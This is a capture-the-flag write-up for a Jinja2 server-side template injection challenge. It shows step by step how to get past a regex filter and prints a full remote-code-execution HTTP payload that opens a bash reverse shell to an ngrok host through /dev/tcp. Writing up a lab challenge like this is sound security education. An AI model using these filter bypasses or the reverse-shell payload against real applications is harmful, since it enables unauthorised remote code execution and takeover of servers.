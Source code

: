 ```yaml
---
description: Jinja2 SSTI filter bypass
---
```


# Strong

> This type of challenges is created to be solved at the end, but you know it's a matter of time so who is the faster?
>
> Link: http://128.199.3.34:1234/\\
>
> **Author:** Kahla

This was a Jinja2 template injection challenge, with the following filter:

```python
re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",request.form['name'])
```

As we can see, the filter is quite extensive!

![](<../../.gitbook/assets/Screenshot 2022-05-13 at 6.06.52 PM.png>)

### Bypassing "\{{" and "\}}"

This one is rather straightforward. We could still get code execution through an if-else statement:

```django
{% raw %}
{% if PAYLOAD %}{% endif %}
{% endraw %}
```

### Bypassing ".", "\[", "]"

We could bypass the use of `.` by using the `attr` filter. For instance, `request|attr('args')` is the same as `request.args`.

Sometimes, we need to access elements of a list or dictionary. This was a bit more tricky but looking into the [Built-in Filters](https://jinja.palletsprojects.com/en/3.1.x/templates/#builtin-filters) part of the documentation, we can find some useful information.

To get the first and last items of a list, we could use `|first` and `|last` respectively.

If we need to access items in a dictionary, we could first convert them to a list using `|list`, then access the first and last elements.

### Bypassing "\_", "\\", "class", "subclasses", "getitem"

In order for our RCE payload to work, I needed access to `__class__`, `__subclassess__` and `__getitem__`.

We needed a way to construct something like `()|attr('__class__')`. The `\` character was banned, so using octal or hexadecimal numbers to construct the string was not possible.

One easy way to get banned characters into a string was to use `request.args` - this is a MultiDict object containing the GET request parameters.

For example, this allowed us to get the `__` string:

```http
POST /?__=a

...

name=... request|attr('args')|list|first ...
```

Bypassing the `class`, `subclasses`, and `getitem` strings could be done by using the `|lower` filter. For instance: `'CLASS'|lower`.

All that's left to do is to join the `class` string with the preceding and ending `__` characters. This can be achieved using `|join`.

Viola, the following will give us `().__class__`:

`()|attr((request|attr('args')|list|first,'CLASS'|lower,request|attr('args')|list|first)|join)`

This can then be extended to construct almost any arbitrary payload.

### Gaining RCE

To get RCE, a typical method is through `().__class__.__subclasses__.__getitem__(x)` where `x` corresponds to the index of the `subprocess.Popen` class.

We do not know the value of `x` in this case, but we can still blindly bruteforce the value of `x` by submitting our RCE payload with different `x` values until we receive a shell.

In order to complete our RCE payload, I needed the `.` character for my callback domain, and the `"` character for the bash command:

`bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/14003 0>&1"`

These characters can be obtained in a similar fashion as `__`. Adding a second GET request parameter, we can access `.` through `request|attr('args')|list|last`.

As for `"`, we could add another POST request parameter and access it through `request|attr('form')|list|last)|join`.

### Final Payload

It might not have been the most elegant, but it got the job done!

```http
POST /?__=a&.=b HTTP/1.1
Host: 128.199.3.34:1234
Content-Length: 661

name={% raw %}
{% if ()|attr((request|attr('args')|list|first,'CLASS'|lower,request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,'base',request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,'SUBCLASSES'|lower,request|attr('args')|list|first)|join)()|attr((request|attr('args')|list|first,'GETITEM'|lower,request|attr('args')|list|first)|join)(276)(('bash -c ',request|attr('form')|list|last,'bash -i >%26 /dev/tcp/8',request|attr('args')|list|last,'tcp',request|attr('args')|list|last,'ngrok',request|attr('args')|list|last,'io/14003 0>%261',request|attr('form')|list|last)|join,shell=True,stdout=-1) %}{% endif %}
{% endraw %}&"
```
